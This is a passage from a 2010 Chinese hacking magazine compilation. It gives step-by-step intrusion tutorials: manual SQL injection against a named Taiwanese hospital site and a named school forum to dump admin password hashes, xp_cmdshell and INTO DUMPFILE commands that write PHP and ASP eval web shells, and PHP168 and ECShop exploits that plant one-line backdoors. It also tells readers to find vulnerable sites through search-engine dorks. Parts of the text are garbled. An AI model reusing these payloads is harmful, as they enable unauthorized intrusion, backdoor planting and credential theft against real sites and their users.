# 黑客X档案合订本2010年（下）第二部分

---

# 一个人的战争

用Webshell自带的“IIS Spy”功能查看发现这个服务器上还有好多北大青鸟的网站（如图13）。我跳到另一个北大青鸟的网站，发现了一个#QQ-ok.txt文件，里面保存竟然还保存在一些青鸟客服的QQ密码（如图14）。我试着登录客服的QQ，因为我和客服在一个城市也就不用开代理了，能够登录上去。

我们搞到了客服的QQ，可以利用这个加社工去渗透青鸟的内网。由于时间关系我也没有在搞下去，在这次渗透中我没有用到什么高深的技术主要是细心，要注意一些细节，细节决定成败嘛……

## 手工搞定台湾某医院站

菲&兴东

总是有些刚学黑的朋友问我Mysql注入怎么得到Webshell，写这篇文章主要目的是普及下Mysql手工注入。目标站点时台湾的某医院，注入地址为`http://history.xxxx.gov.tw/portal_e10_page.php?button_num=c10&cnt_id=12`，加“'”报错，从报错信息中也可以看到数据库是Mysql的（如图1）。

接着提交“/*”返回正常，确定存在注入，这是个字符型的注入（如图2）。`/*`是Mysql中的注释符号，一般情况下到这时候就要判断字段数了，提交“order by 11/*”返回正常（如图3），提交“order by 12/*”返回错误（如图4）。

到这我们就能确定有11个字段，接下来就是用`union select`来爆出字段的位置，提交“`union select 1,2,3,4,5,6,7,8,9,10,11/*`”就爆出了字段的位置（如图5）。我们先看看当前账户是什么提交“`union select 1,2,user(),4,5,6,7,8,9,10,11/*`”在3的位置成功爆破出了当前用户（如图6）。

现在先判断一下有没有读写权限，如果有读写权限，加上前面报错的时候已经知道了Web路径，我们就可以直接导入一个Webshell到服务器，提交“`and%20(select%20count(*)%20from%20mysql.user)>0/*`”返回正常（如图7）。返回正常证明有读写权限，我们实验一下看能不能读文件，提交“union select 1,2,load_file(0x633A5C626F6F742E696E69),4,5,6,7,8,9,10,11/*”成功读取了文件（如图8），Load_file()这个东西很有用，咱们还可以读取SU的配置文件获得密码，或者别的重要文件，这个自己自由运用。

```
and 1=2 union select 0,0,concat(char(60),char(63),char(112),char(104),char(112),char(32),char(64),char(101),char(118),char(97),char(108),char(40),char(36),char(95),char(80),char(79),char(83),char(84),char(91),char(99),char(109),char(100),char(93),char(41),char(63),char(62)),0,0,0,0,0,0,0 into dumpfile 'd:\xampplite\htdocs\vghtpe_history\fei.php'/* and '1'='1'
```

我把一句话木马上传到网站根目录下，地址为http://history.vghtpe.gov.tw/fei.php，密码为“cmd”，然后我们用一句话客户端连接下看能不能连接，连接成功（如图9），然后用一句话上传一个大马（如图10）到此为止收工……

## 简单拿Webshell笔记

最近受同学委托检测一个站，目标是“http://114.249.222.106/LoginFrom.aspx”，这个站直接就是后台。我尝试在用户名和密码处输入“' or' '=''”，提示账号密码错误（如图1），看来不存在注入。

我又尝试在用户名和密码处输入“admin”，这次登录成功存在弱口令（如图2）。在后台找了找，没有找到可以上传Webshell的地方。这时候我在“用户管理”栏目下面发现了注入，在搜索框输入“'and user>0--”爆破出了用户，也爆出了Web目录（如图3），Web目录为“D:\YJcode_WebCode\DBUtility\”。

好像还是sa权限，在搜索框提交“and 1=(select IS_SRVROLEMEMBER('sysadmin'))--”，返回正常（如图4），是个sa权限的点。既然是sa权限就先写个Webshell到服务器吧。

```
exec master.dbo.xp_cmdshell 'echo <%eval request("rikky")%> > D:\YJcode_WebCode\YJcode_WebCode\DBUtility\fci.asp'—
```

执行成功，但是我访问 fei.asp 却访问不到，提示 404 错误页面（如图5）。应该是 Web 目录不对，刚才看到 404 错误页面后我想到了 “MetaBase.xml” 这个文件，这个文件保存了服务器上所有网站的 Web 目录，既然这个站是 sa 权限，我就想用 “copy” 命令用 MetaBase.xml，把 404 错误页面替换掉，我们就不可以看到网站的真实 Web 路径了吗？说干就干，MetaBase.xml 文件在服务器的绝对路径是 “%:\WINDOWS\system32\inetsrv\MetaBase.xml” 其中的 % 代表盘符，在搜索框执行：exec master..xp_cmdshell 'copy /y C:\WINDOWS\system32\inetsrv\MetaBase.xml C:\Windows\Help\iisHelp\common\404b.htm'，执行成功，返回正常页面（如图6）。

文件就出来了（如图7）。然后我们在 MetaBase.xml 文件中搜索 “path”，就能找到网站的 Web 路径。“path” 后面跟的就是 Web 路径，路径为 “D:\ADW”（如图8）。这次再尝试写个小马进去，在搜索框执行 “';exec master.dbo.xp_cmdshell 'echo^<%eval request("rikky")%^> >d:\adw\456.asp'--”，执行成功，小马写进去了（如图9）。

- 转到 Microsoft 产品支持服务并搜索包括 “HTTP” 和 “404” 的标题。
- 打开 “IIS 帮助”（可在 IIS 管理器（inetmgr）中访问），然后搜索标题为 “网站设置”、“常见管理任务” 和 “关于自定义错误消息” 的主题。

现在我们访问一个不存在的页面，我们的 MetaBase.xml

剩下的就很简单了，用一句话传个大马就 ok 了，这个相信大家都会吧~~我就不占用版面了，上传个大马收工（如图10）。

## Dvbbs php 2.0++ 最新注入漏洞

李卓贤

动网论坛系统一直都是国内论坛架设者关注的论坛系统，无论是 ASP 版本还是 PHP 版本都以其简易化操作而深受用户喜爱，但其漏洞也是层出不穷。继 9 月初的 dispuser.php 页面注入漏洞后，于 10 月 3 日最新发布的 Dvbbs php 2.0++ 及 Dvbbs php 2.0 CRS 版本的 indivgroup_dispbbs.php 页面注入漏洞又为其一。

数据库。接着来测试数据库的版本，因为 MYSQL 只有 4.0 以上才能够进行 UNION 查询，能进行 UNION 查询当然就方便很多了。提交：`http://www.hnsdfz.org/2010/indivgroup_dispbbs.php?groupid=2&groupboardid=2 and ord(mid(version(),1,1))>51&id=1&id=3&page=`，结果返回正常，于是可以确定数据库版本应为 4.0 以上……

首先让我们来简单看一下出现问题的漏洞代码。在 indivigroup_dispbbs.php 页面下的第 86 行开始如下：

```
if($groupboardid == 0)
{
    //第86行
    ......
}
Else
{
    //第92行
    $query=$db->query("select id,boardid,rootid,boardname,boardtype,boardinfo,indeximg,postnum,topicnum,todaynum,lastpost,boardstats,rules from {$dv}group_board where rootid={$groupid} and id={$groupboardid}");
}
```

从上述代码中明显可见 $groupboardid 变量仅仅作了非 0 值的判断，并未经过任何过滤就代入 SQL 查询，从而导致了注入漏洞。在该参数后提交我们想实现的 SQL 语句即可实现注入。下面来测试一下该漏洞。在 GOOGLE 中搜索 inurl: indivigroup_dispbbs.php 可以发现有大量使用了 Dvbbsphp2.0 系统的连接，可随便选择一个进行测试。

随后继续提交：`http://www.hnsdfz.org/2010/indivgroup_dispbbs.php?groupid=2&groupboardid=2/* &id=1&id=3&page=`，返回正常，可以确定是 MYSQL 数据库。

下面继续来匹配字段数，经过尝试，提交：`http://www.hnsdfz.org/2010/indivgroup_dispbbs.php?groupid=2&groupboardid=2 order by 11&id=1&id=3&page=`，和提交 order by 12 的返回不一样，表明了字段数为 11。继续提交：`http://www.hnsdfz.org/2010/indivgroup_dispbbs.php?groupid=2&groupboardid=2 and 1=2 union select 1,2,3,4,5,6,7,8,9,10,11`，可以发现页面出现“3”这个数字……再进一步猜解数据之前，可先从动网官方下载一套 Dvbbs php 2.0++ 系统，了解数据库结构。

# 一个人的战争

合用户和后台管理员的帐号密码，在登陆后台时管理员的前台和后台信息是同时需要的。我们先来爆管理员的前台信息，分别提交：`http://www.hnsdfz.org/2010/indivgroup_dispbbs.php?groupid=2&groupboardid=2 and 1=2 union select 1,2,username,4,5,6,7,8,9,10,11 from dv_user where userid=1`，以及`... union select 1,2,userpassword,4,5,6,7,8,9,10,11 from dv_user where userid=1`，很快便在刚才显示数字的3的地方爆出了管理员前台登陆帐号及密码（MD5密文）。

随后来爆管理员的后台登陆信息，分别提交`http://www.hnsdfz.org/2010/indivgroup_dispbbs.php?groupid=2&groupboardid=2 and 1=2 union select 1,2,username,4,5,6,7,8,9,10,11 from dv_admin where id=1`，以及`... union select 1,2,password,4,5,6,7,8,9,10,11 from dv_admin where id=1`，同样也可以在页面中显示出管理员后台登陆账号，及密码MD5密文，如图5、图6所示。

把密文输入到cmd5.com下破解，出来明文就可以登陆管理后台了，如图7所示。至于拿webshell等操作就跟以往的动网系列系统大同小异了，至此测试完毕。

该漏洞厂商目前还没有发布修补补丁，所以用户应及时留意升级信息，另外也可以通过自行修改`indivgroup_dispbbs.php`页面中的代码，对`$groupboardid`变量进行过滤即可。

> （文章中所涉及到的Dvbbs php 2.0已收录到本期光盘中）

# PHP168 V6.02 远程执行任意代码漏洞简介

PHP168 CMS是PHP领域当前用的人比较多的开源系统，全局采用“核心+模块+系统+插件”模式，代码全部开源，可极其方便的进行二次开发，所有功能模块可以自由安装与删除，个人用户完全免费使用。也许因为用的人多，研究它漏洞的人多，所以PHP168 CMS爆出的漏洞也不少，这不，前几天在网上又看到有人爆它的漏洞了。

这次爆出的漏洞是PHP168 V6.02整站系统远程执行任意代码漏洞，漏洞公布者是Luc1f3r，我是在t00ls论坛看到他公布的漏洞的。受这个漏洞影响的是PHP168 V6.02，利用此漏洞可以直接获得shell。

## 一、漏洞简单分析

漏洞公布者Luclf3r已经对漏洞做了详细的分析，我这里就不班门弄斧了，直接引用：

漏洞出在inc/function.inc.php里面get_html_url()这个函数。（代码已经收录到本期光盘）

当only或者fid不等于0时，且job等于"endHTML"时，执行函数。由于$showHtml_Type数组和$aid是可以由我们赋值的，所以漏洞产生。

```
post.php?only=1&showHtml_Type[bencandy][1]={${phpinfo()}}&aid=1&job=endHTML
```

可以看到成功执行了phpinfo()函数，说明漏洞确实存在。

## 二、漏洞利用过程

很多小菜看了上面的漏洞分析是不是有点头晕啊，呵呵，没事，很多小菜更关心的是利用漏洞拿shell，看不懂漏洞分析也没关系。别看这个漏洞分析很长，其实利用起来特别简单，我们先来验证一下漏洞是否可用。

我从网上下载了PHP168 V6.02整站系统的源代码，在虚拟机里的PHP环境中把程序安装好，首页访问地址为http://127.0.0.1/php168/index.php，（如图1）。

要验证和利用这个漏洞，第一步要做的就是注册一个用户，在首页点“注册”按钮或在网站地址后面加上/do/reg.php就可以打开注册页面，我随便注册了一个用户test，注册好登录后点击“会员中心”打开了（如图2）页面。

浏览器中的地址为http://127.0.0.1/php168/member/，在地址后面加上如下代码：

```
post.php?only=1&showHtml_Type[bencandy][1]={${phpinfo()}}&aid=1&job=endHTML
```

完整地址为http://127.0.0.1/php168/member/post.php?only=1&showHtml_Type[bencandy][1]={${phpinfo()}}&aid=1&job=endHTML，回车后显示（如图3）。

不用担心，能执行phpinfo()函数也就能执行别的函数，比如可以直接生成一句话木马的函数。可通过fputs(fopen("x.php","w"),"<?eval($_POST[x]);?>")写入文件。

```
http://127.0.0.1/php168/member/post.php?only=1&showHtml_Type[bencandy][1]={${fputs(fopen("x.php","w"),"<?eval($_POST[x]);?>")}}&aid=1&job=endHTML
```

访问后发现没有生成一句话，在Luclf3r发布漏洞帖子的别人回帖中，说是用base64加密一下生成的文件名（比如上面的x.php）和一句话代码就可以了。不过要注意经过base64加密后的代码不能含有“=”；文中给出了构造后的函数示例。

# 一个人的战争

`<?php @eval($_POST[x]); ?>1`是`<?php @eval($_POST[x]); ?>1`经过base64加密后的代码（如图5）。



用lanker一句话PHP后门客户端连接一句话http://127.0.0.1/php168/member/xx.php，填上密码x，成功得到shell（如图7）。

- 1. 注册一个用户后登录
- 2. 在网址后面加上

```
member/post.php?only=1&showHtml_Type[bencandy][]=...&aid=1&job=endHTML
```

回车就在member子目录下生成一句话木马文件xx.php，密码为x。文件名和连接密码可按需要修改。





至于`<?php @eval($_POST[x]); ?>`后面为什么会多一个1，是为了加密后的代码不含有“=”。可直接访问构造后的URL测试一句话木马是否生成。

## 三、小结

在搜索引擎中搜索“Powered by PHP168 V6.02”等可找到可能存在该漏洞的网站。测试时不要做破坏。文中所涉php168整站系统v6.02简体gbk.zip已收录在本期光盘中。

## ecshop 2.6.2,7 GBK版本

迎来0day助小菜轻松拿shell

小菜看到通杀0day就兴奋，测试ecshop 2.6/.7 GBK版本通杀0day成功，利用该0day拿shell较简单，介绍给新手朋友。

ECSHOP是一款应用较多的开源免费网上商店系统，目前最新版本为2.7.2，经测试最新版程序也受该漏洞影响。

截止我写稿时官方还没出此漏洞的补丁。

## 一、怎样拿到用户名与密码

关于这个漏洞的分析我就不多说了，看EXP好像是api目录下的checkorder.php出现了注入漏洞，受影响版本是ecshop 2.6和ecshop 2.7的GBK版本。回车后可以爆出ecshop后台管理员的用户名和密码（密码为MD5）。



图1

为了方便演示漏洞利用过程，我下载了存在漏洞的ECShop v2.7.2 build 0604 GBK版源码，在虚拟机PHP环境中安装并访问测试站点。

```
http://127.0.0.1/ecshop/api/checkorder.php?username=%ce%27%20and%20...%23
```

顺利爆出后台管理员用户名和密码：admin:7fcf617469e80d32c0559f88b377245，将其在线破解结果为admin888。



图2

### 二、怎样拿shell

有了后台管理员用户名和密码就可以进后台拿shell了。ecshop默认后台目录为admin，在站点后加上/admin即可到登录页面。



图3

用爆出的用户名和破解出的密码进入后台首页（如图4）。



图4

ecshop后台拿shell比较简单，可在模板文件中插入一句话PHP木马。步骤为：在“模板管理”下选择“库项目管理”，再在项目下拉中选“myship.lbi-配送方式”，进入编辑页面。



图5



图6

